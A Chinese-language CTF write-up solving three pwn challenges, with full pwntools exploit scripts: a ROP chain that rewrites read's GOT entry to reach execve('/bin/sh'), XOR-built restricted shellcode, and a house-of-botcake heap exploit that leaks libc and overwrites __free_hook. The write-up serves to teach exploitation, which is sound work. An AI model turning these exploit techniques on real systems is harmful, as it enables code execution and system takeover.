## 写在前面:

这次比赛放了三道pwn，做起来还是蛮吃力的，shellcode那题还是经过师傅们提示才做出来的，R()P这题到比赛结束也没有做出来。通过这次比赛感觉自己对于汇编中的gadget理解和利用还是有写不足，在此写下wp记录一下解题的过程。

## R()P

### 保护策略：



### 漏洞分析：



代码非常的简单，就一个栈溢出漏洞，没有canary，可以随便溢。

最开始有个判断，buf>0x100的话就会进入main函数递归，这里就是一个干扰的点，我们第一次直接发送一个\x00即可绕过这个检查。


### 利用思路：

尽管代码非常短，但是利用起来有些麻烦。首先这道题就给了read函数，因此后续的利用就需要先篡改read的got表为syscall，然后控制rax为59，执行execve(“/bin/sh\x00”,0,0)

#### 篡改read的got表

想要篡改read的got表，肯定是需要向read got写入数据，因此怎么控制read的rsi成了一个问题，我们需要去观察汇编代码（如下）



我们在第二个read输入后，eax的值会被[rsp+0xc]所赋值，因此如果我们精心构造栈里的数据，那么就可以控制eax，而后我们劫持执行流如果返回到0x40115a处，执行mov rsi,rax的话，就会将rax的值赋给rsi，然后再执行read，如此我们就控制了rsi，实现了read的任意写入，进行read的got表篡改。因为read函数距离syscall非常近(如下)，只差了0x10的偏移，因此我们只需要输入一个字节0x90即可将read的got表改为syscall的地址(我使用的glibc是2.35的)


篡改后的情况如下：




#### 将/bin/sh写入bss段

 现在仅仅有了syscall，我们还需要/bin/sh字符串的地址，因此我们需要将该字符串布置到bss段（还是上面的方法，控制rax寄存器，跳转回0x40115a），同时查看ROPgadget发现下面的这个gadget


这个0x404018就是bss段上的地址，因此我们将/bin/sh写到0x404018，再控制好rax(继续控制执行流)，直接去执行这个gadget，即可成功布局好rdi的值。


#### 控制rdx寄存器

上面虽然提到了怎么控制rdi寄存器，但是我们要先布局好rdx的值，才能去布置rdi寄存器，这个顺序不能错。原因如下：



我们控制edx寄存器，必须通过上图的gadget，但是如果执行这个gadget就务必让edi清零了，因此我们只能先让edx变成0，再去布置rdi的值。

这里的思路就是让程序的执行流返回到0x40115d，因为edx是从栈里给的(而我们又能控制栈里的数据，变相的就控制了栈里的数据)，然后将edx置成0，而接下来的read函数执行时，虽然rdx是0也没有关系，顶多就是写不进去数据而已。

#### 控制rdi寄存器

控制rdi寄存器所需要的gadget是`mov edi, 0x404018 ; jmp rax`,在这之前我们需要将rax改成一个地址，才能保证执行流不会断，所以在刚刚提到的控制rdx寄存器的部分，最后应该让执行流到0x40116d这个地址，去控制rax，然后去跳转到`mov edi, 0x404018 ; jmp rax`上。

执行完这段gadget我们的rdi和rdx都控制完了，而rsi最后可以控制，因此我们还需要控制下rax，控制rax的gadget就是0x40116d。所以我们先将rax的值设置为0x40116d，这样最后就会jmp过去

#### 控制rax,rsi寄存器

又跳转到了0x40116d的位置，我们先控制rax的值为59，然后去跳转到0x401141地址处，最后控制下rsi的值，开始执行read函数时，因为read的got表已经被篡改为了syscall，我们参数全部布置好了，到此即可获取shell(如下)


### EXP：

[tools](https://zikh26.github.io/posts/ad411136.html)

```py
#coding:utf-8
from tools import *
context(arch='amd64',os='linux',log_level='debug')
p,e,libc=load("b","node4.buuoj.cn:26579")
debug(p,0x401168)
p.send(b'\x00')
pause()

payload=b'a'*0x4+p32(e.got['read'])#second read rsi
payload+=b'b'*8
payload+=p64(0x40115a)#first return address
payload+=p64(0xdeadbeef)
payload+=b'c'*4+p32(0x404018)#third read rsi
payload+=b'd'*8
payload+=p64(0x40115a)#second return address
payload+=b's'*8
payload+=b'e'*4+p32(0x8)#third read rdx&eax
payload+=b'f'*8
payload+=p64(0x40115d)#fourth return address
payload+=b'i'*8
payload+=b'g'*4+p32(0x0)#will change read rdx to zero
payload+=b'h'*8
payload+=p64(0x40116d)#fifth return address
payload+=p64(0xdeadbeef)
payload+=b't'*4+p32(0x40116D)
payload+=p64(0xdeadbeef)
payload+=p64(0x401099)#sixth return address
payload+=p64(0xdeadbeef)
payload+=b'u'*4+p32(0x3b)#rax
payload+=p64(0xdeadbeef)
payload+=p64(0x401141)
payload+=p64(0xdeadbeef)
payload+=b'n'*4+p32(0)*2
p.send(payload)
pause()
p.send(b'\x90')#change read real address  #我打本地 read改成syscall末尾改成0x90即可，打buu远程的话，因为那边libc版本原因，应该去改成0xf
pause()
p.send(b'/bin/sh\x00')
p.interactive()
```


## 1!5!

### 保护策略：



### 程序分析：


这题考察的很明显，就是一个单纯的shellcode编写(只能用给出的机器码) ，如果通过检查的话，就将shellcode执行     题目给出的字符如下：


### 利用思路：

这道题`pop rsi` `pop rdi` `syscall`等指令都无法使用，我们的思路是去想办法执行一次系统调用read，将数据读到mmap映射出来的区域上，这样第二次用read读的数据就不会受到程序中的check函数限制。

但问题是如何执行系统调用read？

举个例子，syscall的机器码是0x0f05。程序虽然无法写入这个0x0f05，但是却可以写入0x4141和0x4e44。而0x4141和0x4e44异或的结果是0x0f05，这样就做出来了0x0f05。

> 整体思路是先将映射出来的地址0x10000给到rcx寄存器，然后我们通过如下代码,去将异或后的结果写入内存中  先让eax置空，这样去和一组数据异或的时候，就会直接被赋值为那组数据，然后再去和原本地址里的数据进行异或，进行异或后的结果又被放进了内存中。

```assembly
xor eax,0x31315756
xor dword ptr[rcx+0x50],eax
```


现在就考虑怎么做出来pop rsi和pop rdi以及syscall指令。他们的机器码分别为0x5f 0x5e 0x0f05。

我们需要把这四个字节机器码给分成两批写入，因为0x5f5e需要异或两次做出来，而0x0f05需要异或一次做出来，如果放到一起的话第二次异或，除非我们布置一个0x0000和0x0f05异或，才可以保留0x0f05，否则0x0f05就会被改变。但是我们无法将0x0000输入进去，所以只能两批分开写入。

我们先将0x5f5e写入到内存里。

首先我们要考虑最初在0x10000上面写入0x4848(这个0x4848是啥都行，只要能通过检查，我只是最初随意找了个0x4848)。我们最后想让0x5f5e出现在内存里，那就需要去拿0x4848和0x5e5f(由于小端序)去异或一次，得到0x1617，而0x1617我们肯定是输入不进去的，所以还需要再异或一次得到0x1617。这次我找的是0x4141，因此那0x4141和0x1617异或，得到的结果是0x5756，然后发现0x5756可以输入进去。

因此思路为：先将0x4141写到内存，然后拿0x5756和这段内存异或，此时的内存值为0x1617。我们再拿0x4848和这段内存异或就得到了0x5e5f。




然后如法炮制构造出来syscall指令。

因为构造pop rdi和pop rsi指令，就意味着在这之前我们需要压栈参数。观察此时的寄存器状态，我们需要给rsi 0x10000，需要给rdi 0。正好rbx和rcx寄存器满足这个条件，而且我们还能用push rbx push rcx。所以我们在0x10050-0x2的位置写下push rbx和push rcx的机器码。



最后执行系统调用read，把获取shell的shellcode给重新读入一次即可。

### EXP

[tools](https://zikh26.github.io/posts/ad411136.html)

```py
from tools import *
context.arch='amd64'
p,e,libc=load("a")
#debug(p,'pie',0x1324)
shellcode="""
push rdx
pop rcx
xor eax,0x31315756
xor dword ptr[rcx+0x50],eax
pop rax
xor eax,0x31314848
xor dword ptr[rcx+0x50],eax
pop rax
xor eax,0x3131444e
xor dword ptr[rcx+0x52],eax
"""
p.send((asm(shellcode).ljust(0x50-2,b'\x58')+b'\x51\x53'+b'\x41'*4).ljust(512,b'\x58'))
pause()
p.send(b'\x90'*0x100+shellcode_store("shell_64"))
p.interactive()
```

## Magic_Book

### house of botcake

这道题利用的是house of botcake。第一次遇到这个手法，先简单记录一下该手法是如何利用的。

在2.29以后的glibc版本中加入了key机制，进入tcache bin的堆块会被添加一个key字段(也就是tcache_perthread_struct的地址)，位于chunk的bk位置。如果之后释放堆块准备进入tcache bin的时候，发现堆块的key字段位置已经是tcache_perthread_struct的地址，那就去遍历当前tcache bin，如果发现已经存在了当前堆块，那么就会报出 free(): double free detected in tcache 2的错误。

而house of botcake的思路是，先将堆块放入unsorted bin中(此处要利用UAF漏洞)，这样避免了key的位置是tcache_perthread_struct的地址。然后我们再次释放该堆块让其进入tcache bin，这样就绕过了检查。完成了double free，让同一个堆块即出现在了unsorted bin中又出现在了tcache bin中。

举个例子:

我们先申请七个堆块，准备一会将其释放，去填满tcache bin(如下)

```c
	void *p[20];
	int i;
	for(i=0;i<7;i++)
	{
		p[i]=malloc(0x100);
	}
```


然后再申请两个0x100的堆块以及一个防止和top chunk合并的堆块(如下)

```c
void *prev=malloc(0x100);
void *victim=malloc(0x100);
malloc(0x10);
```

接着将最初的七个堆块全部释放，填满tcache bin(如下)

```c
for(i=0;i<7;i++)
{
	free(p[i]);
}
```

接着我们先去释放位于高地址的victim，它将进入unsorted bin，然后释放位于低地址的prev，它也会进入unsorted bin，而且将与victim合并成一个更大的位于unsorted bin的一个堆块(如下)

```c
free(victim);
free(prev);
```

最后我们再申请出来一个0x100的堆块(因为tcache bin具有绝对的优先权，所以这个堆块会从tcache bin里取出来，而此时的tcache bin就只有6个堆块，空出来了一个)，然后我们将victim再释放掉，此时的victim进入tcache bin。这样我们只要从unsorted bin申请出来任意一个大小的堆块(能覆写到victim的fd指针并且大小不为0x100)，就可以打一个tcache poisoning。(如下)

```c
malloc(0x100);
free(victim);
```


### 保护策略：




### 程序逻辑：

程序没有edit函数和show函数，然后有只能用一次的UAF漏洞。对申请的字节数还有限制，最大为0x100。	

### 利用思路：

这题如果单纯的打house of botcake，那么后续只能打io leak泄露一个堆地址。如果想第二次打tcache poisoning的话，就必须要进行一点布局。

我们先看一下单纯的io leak用house of botcake是怎么布局的。

```py
def pwn():
    add(0x100,'a')#prev
    add(0x100,'b')#victim
    for i in range(7):
        add(0x100,'a')

    for i in range(2,9):
        delete(i)

    uaf(1)

    delete(0)
    add(0x100,'a')

    delete(1)#double free

    add(0x70,'a')
    add(0x80,'a')

    add(0x90,'\xa0\x46')#stdout struct
    debug(p,'pie',0x1401,0x13e9,0x13f5)
    add(0x100,'here')
    payload=p64(0xfbad1887)+p64(0)*3+b'\x00'
    add(0x100,payload)#io leak
    leak_libc=recv_libc()
    libc_base=leak_libc-0x1ec980
    log_addr('libc_base')
```


上面就是最简单的一个house of botcake的布局，但是需要注意的是在`add(0x100,'here')`这行执行的时候，情况如下:



可以看到，我们将要申请的tcache bin的堆块为0x110，而申请出来的时候，是可以控制unsorted bin的size，如果我们将unsorted bin的size改成一个更大的size(让unsorted bin里包含一个tcache bin中的堆块)，这样下次切割unsorted bin的时候，又能够控制里面被包含的那个tcache bin的堆块的fd指针，从而达到第二次的tcache poisoning。

不过由于2.31的glibc版本中，对unsorted bin的检查较为严格，我们还需要伪造一个size和prev_size来保证unsorted bin在篡改size后依然能通过检查。

最后需要注意的就是，在第一次tcache poisoning攻击后0x110的链已经无法进行第二次的tcache poisoning了，所以我们需要提前布置一条新的链，便于第二次的tcache poisoning。


### EXP:

[tools](https://zikh26.github.io/posts/ad411136.html)

```py
from tools import *
#context.log_level='debug'
def add(size,content):
    p.sendlineafter("Your choice : ",str(1))
    p.sendlineafter("Size: ",str(size))
    p.sendafter("Content: ",content)

def delete(index):
    p.sendlineafter("Your choice : ",str(2))
    p.sendlineafter("Index: ",str(index))

def uaf(index):
    p.sendlineafter("Your choice : ",str(9))
    p.sendlineafter("Index: ",str(index))

def pwn():
    add(0x100,'a')#prev
    add(0x100,'b')#victim
    
    add(0x80,'a')#second tcache poisoning.after the first tcache poisoning,the 0x100 tcache chain will bad
    #so we need to prepare 0x80 tcache chain
    payload=p64(0xdeadbeef)*14+p64(0x180)+p64(0x90)
    add(0x100,payload)#size and prev_size of unsigned bin to be forged
    for i in range(6):
        add(0x100,'a')

    for i in range(3,10):
        delete(i)

    uaf(1)

    delete(0)
    add(0x100,'a')#take one from tcache bin

    delete(1)#double free

    add(0x70,'a')#let the fd pointer of unsorted bin local tcache bin

    add(0x80,'a')

    add(0x90,'\xa0\x46')#stdout struct
    payload=p64(0xdeadbeef)*18+p64(0)+p64(0x180)
    add(0x100,payload)#tamper size of unsorted bin
    payload=p64(0xfbad1887)+p64(0)*3+b'\x00'
    add(0x100,payload)#io leak
    leak_libc=recv_libc()
    libc_base=leak_libc-0x1ec980
    log_addr('libc_base')
    free_hook=libc_base+libc.symbols['__free_hook']
    sys_addr=libc_base+libc.symbols['system']

    delete(12)
    delete(2)#second tcache poisoning
    payload=p64(0xdeadbeef)*12+p64(0x70)+p64(0x90)+p64(free_hook)
    add(0xb0,payload)#Cut a piece of memory from unsorted bin to control the fd pointer of tcache bin 
    debug(p,'pie',0x1401,0x13e9,0x13f5)
    add(0x80,'/bin/sh\x00')
    add(0x80,p64(sys_addr))  
    delete(17)
    p.interactive()

while 1:
    try:
        p,e,libc=load("heap","node4.buuoj.cn:25633")
        libc=ELF('libc')
        pwn()
    except:
        p.close()
    
```



最开始复现这题的时候，挺懵的。通过不断调试roderick师傅的exp，渐渐知道了这题的做法(其实是我太菜了，花了一天才弄懂)。不过最后也仅仅是知道了这题的做法和思路，但不明白这个布局是怎么做出来的，于是第二天早上把exp删了，自己重新写了一下这道题，按照自己的思考走了一遍，才彻底明白了为什么要这么布局。

其实这也说明了在堆的布局上，不能只知其然，更要知其所以然。

### 参考文章：

[DASCTF X GFCTF 2022十月挑战赛 pwn wp - LynneHuan - 博客园 (cnblogs.com)](https://www.cnblogs.com/LynneHuan/p/16822129.html)

[奇安信攻防社区-深入理解 House of Botcake 堆利用手法 (butian.net)](https://forum.butian.net/share/1709)
